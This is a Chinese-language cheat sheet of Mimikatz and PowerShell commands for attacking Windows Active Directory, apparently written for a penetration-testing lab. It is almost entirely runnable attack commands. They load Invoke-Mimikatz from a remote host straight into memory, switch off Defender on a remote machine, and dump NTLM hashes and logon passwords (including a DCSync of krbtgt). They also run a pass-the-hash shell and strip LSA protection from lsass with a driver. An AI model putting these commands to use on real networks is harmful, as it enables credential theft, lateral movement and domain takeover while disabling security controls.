# 引入Invoke-Mimikatz.ps1，并且在内存中执行
```
iex (iwr http://172.16.100.66/Invoke-Mimikatz.ps1 -UseBasicParsing)
```


# 横向执行Mimikatz
从上面我们已经知道当前账号ciadmin可以横向登录到计算机dcorp-mgmt.dollarcorp.moneycorp.local，我们把登录的session保存在$sess
```$sess = New-PSSession -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local```

指定目标靶机的session，在目标靶机关闭杀软（效果跟bypass AMSI大同小异，不过因为我们是目标靶机上的管理员，因此可以直接关闭）
```Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess```

指定目标靶机的session，在目标靶机执行Mimikatz
```Invoke-command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess```


# 导出所有ntml 哈希
```
Invoke-command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess
```

# 导出本地所有用户的NTML
```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

# 导出特定用户的哈希
```
lsadump::dcsync /domain:kevin.com /user:root

lsadump::dcsync /user:za\krbtgt

lsadump::dcsync /DEV.ADMIN.OFFSHORE.COM:172.16.2.6 /all /csv

```

# 从sam.hive和system.hive文件中获得NTLM Hash
```
lsadump::sam /sam:sam.hive /system:system.hive
```

Invoke-Mimikatz -Command '"lsadump::sam /sam:sam.hive /system:system.hive"'

# 从本地SAM文件中读取密码哈希
```
token::elevate
lsadump::sam
```

# 生成某个用户命令的shell（需要NTML） Over the hash
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /ntlm:b38ff50264b74508085d82c69794a4d8 /run:powershell.exe"'
```


# 执行命令
```
Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```

# Mimikatz.ps1调用自己（适用于有Applocker策略不允许执行ps1脚本的环境）
在Invoke-Mimikatz.ps1文件的最底部，加一行命令：Invoke-Mimikatz


# Mimikatz.exe
```
#提升权限
privilege::debug

#抓取密码
sekurlsa::logonpasswords

# ekeys
sekurlsa::ekeys
```

# 禁用LSA保护

如果启用了 LSA 保护，执行“sekurlsa::logonpasswords”命令会出错。

```
mimikatz # sekurlsa::logonpasswords
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
```

禁用 LSA 保护。我们可以通过执行“！+”将其导入到 Mimikatz

```
mimikatz # !+
[*] 'mimidrv' service not present
[+] 'mimidrv' service successfully registered
[+] 'mimidrv' service ACL to everyone
[+] 'mimidrv' service started
```

如果执行完上面程序仍然还不可以导出哈希，那么使用下面命令禁用 LSA 保护

```
mimikatz # !processprotect /process:lsass.exe /remove
Process : lsass.exe
PID 528 -> 00/00 [0-0-0]
```
